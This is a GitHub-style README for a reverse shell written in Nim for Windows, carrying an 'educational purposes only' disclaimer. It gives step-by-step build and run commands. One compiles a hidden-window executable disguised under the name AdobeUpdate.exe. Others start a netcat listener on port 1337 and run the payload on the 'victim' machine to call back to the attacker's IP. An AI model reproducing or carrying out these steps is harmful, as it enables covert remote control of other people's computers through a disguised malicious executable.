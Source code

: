 # Nim Reverse Shell

A simple reverse shell written in Nim (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10, 11

### Installation

```bash
sudo apt install mingw-w64
sudo apt install nim
```

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). Update IP and port or when executing.

```bash
nim c -d:mingw --app:gui --opt:speed -o:AdobeUpdate.exe rev_shell.nim
```
#### Parameters
*  -d: define compiler
*  --app: generate gui app
*  --opt: optimize for speed
*  -o: output
### Execution
Cybersecurity professional
```bash
nc -lvnp 1337
```
Target System
```bash
AdobeUpdate.exe 10.10.5.25 1337         --defaults to static IP/port if no arguments provided
```



